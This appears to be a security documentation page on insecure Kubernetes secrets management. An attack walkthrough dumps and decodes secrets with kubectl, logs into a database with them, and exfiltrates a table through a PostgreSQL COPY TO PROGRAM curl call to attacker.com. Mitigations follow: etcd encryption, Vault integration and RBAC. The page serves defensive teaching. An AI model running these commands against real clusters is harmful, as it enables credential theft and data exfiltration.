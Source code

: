 ```yaml
---
sidebar_position: 5
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

Insecure secrets management in Kubernetes can lead to the exposure of sensitive data, such as API keys, database credentials, and certificates. Storing secrets in plaintext or using insecure backends increases the risk of unauthorized access by attackers.

---

## Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker can identify Kubernetes Secrets stored in plaintext using the following command:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The attacker extracts and decodes a Base64-encoded secret:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The attacker uses the decoded credentials to access a database:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The attacker exports sensitive data from the database to an external server:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### Result

The attacker can access and exfiltrate sensitive data, potentially causing data breaches and regulatory compliance violations.

---

## Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

**Issue:** Secrets stored in etcd are not encrypted by default.<br>
**Fix:** Enable encryption at rest in the Kubernetes configuration.

#### Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
  - identity: {}
```

### 2. Use External Secret Management Solutions

**Issue:** Kubernetes Secrets alone do not provide advanced security features.<br>
**Fix:** Integrate with external secret management tools like HashiCorp Vault, AWS Secrets Manager, or Azure Key Vault.

#### Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

**Issue:** Lack of access controls allows unauthorized access to secrets.<br>
**Fix:** Implement Role-Based Access Control (RBAC) to restrict secret access.

#### Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
- kind: ServiceAccount
  name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To securely manage Kubernetes secrets:

- Always enable encryption at rest using etcd encryption.
- Utilize external secret management solutions for enhanced security.
- Apply RBAC policies to restrict access to sensitive data.

